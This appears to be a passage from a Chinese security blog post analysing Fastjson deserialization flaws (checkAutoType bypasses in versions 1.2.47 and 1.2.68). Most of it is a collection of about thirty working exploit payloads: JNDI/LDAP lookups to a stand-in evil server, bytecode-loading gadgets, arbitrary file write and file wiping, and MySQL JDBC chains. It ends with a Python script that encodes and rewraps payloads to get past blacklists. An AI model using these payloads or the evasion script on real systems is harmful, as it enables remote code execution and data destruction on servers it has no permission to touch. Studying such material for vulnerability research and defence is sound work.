`DefaultJSONParser.parseObject`调用`checkAutoType`检查待加载类的合法性.


由于`deserializers`在初始化时将`Class.class`进行了加载, 因此使用`findClass`可以找到, 越过了后面`AutoTypeSupport`的检查.


`DefaultJSONParser.parseObject`设置`resolveStatus`为`2`.


`DefaultJSONParser.parseObject`根据不同的`class`类型分配`deserialzer`, `Class`类型由`MiscCodec.deserialze`处理.


接着传递至`strVal`并使用`loadClass`加载并缓存.


此时恶意的`val`成功被加载到`mappings`中, 再次以恶意类进行`@type`请求时即可绕过黑名单进行的阻拦.

### Payload

```java
{
	"demo1": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"demo2": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
		"autoCommit": true
	}
}
```

## Fastjson 1.2.68
### 分析

在`Fastjson 1.2.47`版本漏洞爆发之后, 官方在`Fastjson 1.2.48`对漏洞进行了修复, 在`MiscCodec`处理`Class`类的地方, 设置了`cache`为`false`, 并且`loadClass`重载方法的默认的调用改为不缓存, 这就避免了使用了`Class`提前将恶意类名缓存进去. 直到`Fastjson 1.2.68`版本出现了新的漏洞利用方式, 利用`expectClass`绕过`checkAutoType`.

版本`Fastjson 1.2.47`更新了一个新的安全控制点`safeMode`, 如果应用程序开启了`safeMode`, 将在`checkAutoType`中直接抛出异常, 利用这个方式也就是完全禁止`autoType`.


但是在该版本中出现了新的绕过方式: 利用`expectClass`绕过`checkAutoType`. 在`checkAutoType`函数中有这样的逻辑: 如果函数有`expectClass`入参, 且传入的类名是`expectClass`的子类或实现并且不在黑名单中, 就可以通过`checkAutoType`的安全检测.


根据上面的思路, 寻找一下`checkAutoType`的几个重载方法中是否有可控的`expectClass`的入参方式, 最终找到了以下几个类:
 - ThrowableDeserializer#deserialze
 - JavaBeanDeserializer#deserialze

跟进`ThrowableDeserializer#deserialze`方法, 该方法直接将`@type`后的类传入`checkAutoType`, 并且`expectClass`为`Throwable.class`.


通过`checkAutoType`之后, 将使用`createException`来创建异常类的实例. 这就形成了`Throwable`子类绕过`checkAutoType`的方式. 我们需要找到`Throwable`的子类, 这个类的`getter`/`setter`/`static block`/`constructor`中含有具有威胁的代码逻辑. 与`Throwable`类似地, 还有`AutoCloseable`(在白名单中).



## Payload 集合

 - JdbcRowSetImpl

```java
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://127.0.0.1:8888/evilObject",
    "autoCommit": true
}
```

 - TemplatesImpl

```java
{
	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
	"_bytecodes": ["yv66vgA...k="],
	'_name': 'h3rmesk1t',
	'_tfactory': {},
	"_outputProperties": {},
}
```

 - JndiDataSourceFactory

```java
{
    "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties": {
      "data_source":"ldap://127.0.0.1:8888/evilObject"
    }
}

```

 - SimpleJndiBeanFactory

```java
{
    "@type": "org.springframework.beans.factory.config.PropertyPathFactoryBean",
    "targetBeanName": "ldap://127.0.0.1:8888/evilObject",
    "propertyPath": "h3rmesk1t",
    "beanFactory": {
      "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
      "shareableResources": [
        "ldap://127.0.0.1:8888/evilObject"
      ]
    }
}
```

 - DefaultBeanFactoryPointcutAdvisor

```java
{
  "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor",
   "beanFactory": {
     "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
     "shareableResources": [
       "ldap://127.0.0.1:8888/evilObject"
     ]
   },
   "adviceBeanName": "ldap://127.0.0.1:8888/evilObject"
},
{
   "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor"
}
```

 - WrapperConnectionPoolDataSource

```java
{
    "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
    "userOverridesAsString": "HexAsciiSerializedMap:aced000...6f;"
}
```

 - JndiRefForwardingDataSource

```java
{
    "@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource",
    "jndiName": "ldap://127.0.0.1:8888/evilObject",
    "loginTimeout": 0
}
```

 - InetAddress

```java
{
	"@type": "java.net.InetAddress",
	"val": "http://dnslog.com"
}
```

 - Inet6Address

```java
{
	"@type": "java.net.Inet6Address",
	"val": "http://dnslog.com"
}
```

 - URL

```java
{
	"@type": "java.net.URL",
	"val": "http://dnslog.com"
}
```

 - JSONObject

```java
{
	"@type": "com.alibaba.fastjson.JSONObject",
	{
		"@type": "java.net.URL",
		"val": "http://dnslog.com"
	}
}
""
}
```

- URLReader

```java
{
	"poc": {
		"@type": "java.lang.AutoCloseable",
		"@type": "com.alibaba.fastjson.JSONReader",
		"reader": {
			"@type": "jdk.nashorn.api.scripting.URLReader",
			"url": "http://127.0.0.1:9999"
		}
	}
}
```

 - AutoCloseable 任意文件写入

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "org.apache.commons.compress.compressors.gzip.GzipCompressorOutputStream",
	"out": {
		"@type": "java.io.FileOutputStream",
		"file": "/path/to/target"
	},
	"parameters": {
		"@type": "org.apache.commons.compress.compressors.gzip.GzipParameters",
		"filename": "filecontent"
	}
}
```

 - BasicDataSource

```java
{
  "@type" : "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
  "driverClassName" : "$$BCEL$$$l$8b$I$A$A$A$A...",
  "driverClassLoader" :
  {
    "@type":"Lcom.sun.org.apache.bcel.internal.util.ClassLoader;"
  }
}
```

 - JndiConverter

```java
{
	"@type": "org.apache.xbean.propertyeditor.JndiConverter",
	"AsText": "ldap://127.0.0.1:8888/evilObject"
}
```

 - JtaTransactionConfig

```java
{
	"@type": "com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig",
	"properties": {
		"@type": "java.util.Properties",
		"UserTransaction": "ldap://127.0.0.1:8888/evilObject"
	}
}
```

 - JndiObjectFactory

```java
{
	"@type": "org.apache.shiro.jndi.JndiObjectFactory",
	"resourceName": "ldap://127.0.0.1:8888/evilObject"
}
```

 - AnterosDBCPConfig

```java
{
	"@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
	"metricRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - AnterosDBCPConfig2

```java
{
	"@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - CacheJndiTmLookup

```java
{
	"@type": "org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup",
	"jndiNames": "ldap://127.0.0.1:8888/evilObject"
}
```

 - AutoCloseable 清空指定文件

```java
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileOutputStream",
    "file":"/tmp/nonexist",
    "append":false
}
```

 - AutoCloseable 清空指定文件

```java
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileWriter",
    "file":"/tmp/nonexist",
    "append":false
}
```

 - AutoCloseable 任意文件写入

```java
{
    "stream":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"java.io.FileOutputStream",
        "file":"/tmp/nonexist",
        "append":false
    },
    "writer":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.apache.solr.common.util.FastOutputStream",
        "tempBuffer":"SSBqdXN0IHdhbnQgdG8gcHJvdmUgdGhhdCBJIGNhbiBkbyBpdC4=",
        "sink":
        {
            "$ref":"$.stream"
        },
        "start":38
    },
    "close":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.iq80.snappy.SnappyOutputStream",
        "out":
        {
            "$ref":"$.writer"
        }
    }
}
```

 - AutoCloseable MarshalOutputStream 任意文件写入

```java
{
	'@type': "java.lang.AutoCloseable",
	'@type': 'sun.rmi.server.MarshalOutputStream',
	'out': {
		'@type': 'java.util.zip.InflaterOutputStream',
		'out': {
			'@type': 'java.io.FileOutputStream',
			'file': 'dst',
			'append': false
		},
		'infl': {
			'input': {
				'array': 'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
				'limit': 22
			}
		},
		'bufLen': 1048576
	},
	'protocolVersion': 1
}
```

 - BasicDataSource

```java
{
    "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
    "driverClassName": "true",
    "driverClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A...o$V$A$A"
}
```

 - HikariConfig

```java
{
	"@type": "com.zaxxer.hikari.HikariConfig",
	"metricRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - HikariConfig

```java
{
	"@type": "com.zaxxer.hikari.HikariConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - HikariConfig

```java
{
	"@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
	"metricRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - HikariConfig

```java
{
	"@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - SessionBeanProvider

```java
{
	"@type": "org.apache.commons.proxy.provider.remoting.SessionBeanProvider",
	"jndiName": "ldap://127.0.0.1:8888/evilObject",
	"Object": "su18"
}
```

 - JMSContentInterceptor

```java
{
	"@type": "org.apache.cocoon.components.slide.impl.JMSContentInterceptor",
	"parameters": {
		"@type": "java.util.Hashtable",
		"java.naming.factory.initial": "com.sun.jndi.rmi.registry.RegistryContextFactory",
		"topic-factory": "ldap://127.0.0.1:8888/evilObject"
	},
	"namespace": ""
}
```

 - ContextClassLoaderSwitcher

```java
{
	"@type": "org.jboss.util.loading.ContextClassLoaderSwitcher",
	"contextClassLoader": {
		"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
	},
	"a": {
		"@type": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmS$ebN$d4P$...$A$A"
	}
}
```

 - OracleManagedConnectionFactory

```java
{
	"@type": "oracle.jdbc.connector.OracleManagedConnectionFactory",
	"xaDataSourceName": "ldap://127.0.0.1:8888/evilObject"
}
```

 - JNDIConfiguration

```java
{
	"@type": "org.apache.commons.configuration.JNDIConfiguration",
	"prefix": "ldap://127.0.0.1:8888/evilObject"
}
```

 - JDBC4Connection

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "com.mysql.jdbc.JDBC4Connection",
	"hostToConnectTo": "172.20.64.40",
	"portToConnectTo": 3306,
	"url": "jdbc:mysql://172.20.64.40:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
	"databaseToConnectTo": "test",
	"info": {
		"@type": "java.util.Properties",
		"PORT": "3306",
		"statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
		"autoDeserialize": "true",
		"user": "yso_URLDNS_http://ahfladhjfd.6fehoy.dnslog.cn",
		"PORT.1": "3306",
		"HOST.1": "172.20.64.40",
		"NUM_HOSTS": "1",
		"HOST": "172.20.64.40",
		"DBNAME": "test"
	}
}
```

 - LoadBalancedMySQLConnection

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
	"proxy": {
		"connectionString": {
			"url": "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"
		}
	}
}
```

 - ReplicationMySQLConnection

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
	"proxy": {
		"@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
		"connectionUrl": {
			"@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
			"masters": [{
				"host": "mysql.host"
			}],
			"slaves": [],
			"properties": {
				"host": "mysql.host",
				"user": "user",
				"dbname": "dbname",
				"password": "pass",
				"queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
				"autoDeserialize": "true"
			}
		}
	}
}
```

 - UnpooledDataSource

```java
{
	"x": {
		{
			"@type": "com.alibaba.fastjson.JSONObject",
			"name": {
				"@type": "java.lang.Class",
				"val": "org.apache.ibatis.datasource.unpooled.UnpooledDataSource"
			},
			"c": {
				"@type": "org.apache.ibatis.datasource.unpooled.UnpooledDataSource",
				"key": {
					"@type": "java.lang.Class",
					"val": "com.sun.org.apache.bcel.internal.util.ClassLoader"
				},
				"driverClassLoader": {
					"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
				},
				"driver": "$$BCEL$$$l$8b$..."
			}
		}: "a"
	}
}
```

## Payload 变形脚本

```python
#!usr/bin/env python  
# -*- coding:utf-8 -*-

import json
from json import JSONDecodeError


class FastJsonPayload:
    def __init__(self, base_payload):
        try:
            json.loads(base_payload)
        except JSONDecodeError as ex:
            raise ex
        self.base_payload = base_payload

    def gen_common(self, payload, func):
        tmp_payload = json.loads(payload)
        dct_objs = [tmp_payload]

        while len(dct_objs) > 0:
            tmp_objs = []
            for dct_obj in dct_objs:
                for key in dct_obj:
                    if key == "@type":
                        dct_obj[key] = func(dct_obj[key])

                    if type(dct_obj[key]) == dict:
                        tmp_objs.append(dct_obj[key])
            dct_objs = tmp_objs
        return json.dumps(tmp_payload)

    # 对@type的value增加L开头，;结尾的payload
    def gen_payload1(self, payload: str):
        return self.gen_common(payload, lambda v: "L" + v + ";")

    # 对@type的value增加LL开头，;;结尾的payload
    def gen_payload2(self, payload: str):
        return self.gen_common(payload, lambda v: "LL" + v + ";;")

    # 对@type的value进行\u
    def gen_payload3(self, payload: str):
        return self.gen_common(payload,
                               lambda v: ''.join('\\u{:04x}'.format(c) for c in v.encode())).replace("\\\\", "\\")

    # 对@type的value进行\x
    def gen_payload4(self, payload: str):
        return self.gen_common(payload,
                               lambda v: ''.join('\\x{:02x}'.format(c) for c in v.encode())).replace("\\\\", "\\")

    # 生成cache绕过payload
    def gen_payload5(self, payload: str):
        cache_payload = {
            "rand1": {
                "@type": "java.lang.Class",
                "val": "com.sun.rowset.JdbcRowSetImpl"
            }
        }
        cache_payload["rand2"] = json.loads(payload)
        return json.dumps(cache_payload)

    def gen(self):
        payloads = []

        payload1 = self.gen_payload1(self.base_payload)
        yield payload1

        payload2 = self.gen_payload2(self.base_payload)
        yield payload2

        payload3 = self.gen_payload3(self.base_payload)
        yield payload3

        payload4 = self.gen_payload4(self.base_payload)
        yield payload4

        payload5 = self.gen_payload5(self.base_payload)
        yield payload5

        payloads.append(payload1)
        payloads.append(payload2)
        payloads.append(payload5)

        for payload in payloads:
            yield self.gen_payload3(payload)
            yield self.gen_payload4(payload)


if __name__ == '__main__':
    fjp = FastJsonPayload('''{
  "rand1": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://localhost:1389/Object",
    "autoCommit": true
  }
}''')

    for payload in fjp.gen():
        print(payload)
        print()
```

## 黑名单获取
 - 参考项目: [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

## 参考
 - [Fastjson 反序列化漏洞史](https://paper.seebug.org/1192/)
 - [fastjson：我一路向北，离开有你的季节](https://su18.org/post/fastjson/)